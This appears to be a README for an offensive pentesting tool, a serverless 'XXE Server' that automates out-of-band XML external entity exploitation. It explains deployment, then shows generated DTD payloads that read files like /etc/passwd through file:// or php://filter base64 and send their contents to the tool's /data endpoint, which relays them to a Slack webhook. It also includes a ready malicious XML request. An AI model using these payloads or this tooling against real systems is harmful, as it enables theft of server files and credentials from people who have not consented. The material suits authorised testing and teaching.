

# XXE Server
This example is based off a similar project I wrote a while ago, [xxetimes](https://github.com/ropnop/xxetimes). After discovering an OOB XXE vulnerability, exploitation is usually a very manual process that includes spinning up at least one listening server, customizing DTD files and parsing data dump output.

This serverless function provides two main functionalities to help:

 * Template generation and serving up of DTD files
 * Parsing encoded data in GET params and posting to Slack

The server will dynamically generate DTD files for HTTP data exfiltration using parameter expansion when the `/dtd` endpoint is hit. It accepts a `filename` parameter to create the file entity. It also supports PHP Base64 encoding when the `php` parameter is sent. The parameter expansion will send data to the same server at the `/data` endpoint.

The `/data` endpoint simply decodes any incoming data as part of the URL query and dumps it to a Slack webhook.

The function requires the `SLACK_WEBHOOK` environment variable

## Deployment
Since it is possible to view public `now.sh` deployment source code and environment variables, it is advisable to keep your Slack WEBHOOK_URL in a [now.sh secret](https://zeit.co/docs/v1/features/env-and-secrets)

```
$ now secret add slack-webhook-xxe https://hooks.slack.com/services/YOUR_WEBHOOK_HERE
```

And deploy with the environment variable:

```
$ now -e SLACK_WEBHOOK=@slack-webhook-xxe --public
```

## Usage
The `/dtd` endpoint is used to generate DTDs with parameter expansion. The two optional paramaters are `filename` and `php`. It's easiest to view the differences:

No params:
```
$ curl https://xxeserver-riigdrbgdd.now.sh/dtd
<!ENTITY % all "<!ENTITY &#x25; send SYSTEM 'https://xxeserver-riigdrbgdd.now.sh/data?%file;'>">
%all;
%send;
```

Filename specified:
```
$ curl "https://xxeserver-riigdrbgdd.now.sh/dtd?filename=/etc/passwd"
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % all "<!ENTITY &#x25; send SYSTEM 'https://xxeserver-riigdrbgdd.now.sh/data?%file;'>">
%all;
%send;
```

PHP specified (will use base64 encoding)
```
$ curl "https://xxeserver-riigdrbgdd.now.sh/dtd?filename=/etc/passwd&php=true"
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % all "<!ENTITY &#x25; send SYSTEM 'https://xxeserver-riigdrbgdd.now.sh/data64?%file;'>">
%all;
%send;
```

When explointing an XXE vulnerability, the XML sent to the server will therefore look something like this:
```
<?xml version="1.0" ?>
<!DOCTYPE foo [
<!ENTITY % dtd SYSTEM "https://xxeserver-riigdrbgdd.now.sh/dtd?filename=/etc/issue&php=true">
%dtd;
]>
<foobar>
<hello>world</hello>
</foobar>
```

When submitted, the contents of `/etc/issue` are dumped to Slack:



